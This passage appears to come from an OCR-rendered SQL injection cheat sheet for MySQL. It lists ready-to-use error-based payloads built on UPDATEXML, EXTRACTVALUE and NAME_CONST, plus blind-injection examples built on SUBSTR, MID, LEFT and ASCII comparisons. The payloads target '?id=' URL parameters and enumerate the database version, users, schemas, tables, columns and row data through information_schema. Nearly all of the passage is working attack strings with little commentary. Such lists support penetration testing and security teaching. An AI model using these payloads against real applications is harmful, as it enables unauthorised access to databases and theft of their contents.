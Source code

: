 Shorter to read:

```sql
UPDATEXML(null,CONCAT(0x0a,version()),null)-- -
UPDATEXML(null,CONCAT(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```

### MYSQL Error Based - Extractvalue Function

Works with `MySQL >= 5.1`

```sql
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),table_name,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```

### MYSQL Error Based - NAME_CONST function (only for constants)

Works with `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```

## MYSQL Blind

### MYSQL Blind With Substring Equivalent

| Function | Example | Description |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | Extracts a number of characters from a string (starting from right) |
| `MID` | `MID(version(),1,1)=4` | Extracts a substring from a string (starting at any position) |
| `LEFT` | `LEFT(version(),1)=4` | Extracts a number of characters from a string (starting from left) |

Examples of Blind SQL injection using `SUBSTRING` or another equivalent function:

```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
?id=1 AND ASCII(LOWER(SUBSTR(version(),1,1)))=51
```
